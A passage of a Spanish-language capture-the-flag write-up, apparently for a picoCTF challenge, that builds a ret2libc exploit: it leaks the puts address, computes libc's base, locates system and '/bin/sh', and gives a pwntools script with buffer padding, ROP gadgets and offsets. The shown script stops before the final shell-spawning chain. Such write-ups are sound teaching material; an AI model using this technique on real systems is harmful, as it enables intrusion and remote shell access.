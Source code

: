 Ahora ya tenemos la direccion base de libc:

```bash
python3 exploit.py                                                ─╯
[+] Opening connection to mercury.picoctf.net on port 42072: Done
[*] Direccion de puts en tiempo de ejecucion: 0x7f9fa002ca30
[*] Direccion base de libc: 0x7f9f9ffac000
[*] Closed connection to mercury.picoctf.net port 42072
```

### Direccion de system y /bin/sh

System:

```
readelf -s libc.so.6 | grep system                                       ─╯
  1403: 000000000004f4e0    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5
```

/bin/sh:

```
strings -atx libc.so.6 | grep /bin/sh                                                                                                                ─╯
 1b40fa /bin/sh
```
Esto lo hacemos por que debemos de llamar a system con /bin/sh, y para eso debemos de usar otra vez ```pop rdi``` 

Adicionalmente ocupamos la direccion de ```ret``` antes de llamar a system por cuestiones de stack alignment (la direccion la saque con ropper)

### Exploit final

```py
from pwn import *

host = "mercury.picoctf.net"
puerto = 42072 #<-- Esto lo cambias

p = remote(host,puerto)

padding = b"A" * 136
pop_rdi = 0x400913
puts_got = 0x601018
puts_plt = 0x400540
main = 0x400771

payload = padding
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main)

p.recvuntil(b'WeLcOmE To mY EcHo sErVeR!\n')
p.sendline(payload)
p.recvline()

puts = u64(p.recvline().strip().ljust(8, b"\x00"))
log.info(f"Direccion de puts en tiempo de ejecucion: {hex(puts)}")

offset_puts = 0x80a30

libc = puts - offset_puts
log.info(f'Direccion base de libc: {hex(libc)}')  

offset_system = 0x4f4e0
offset_bin_sh = 0x1b40fa
```
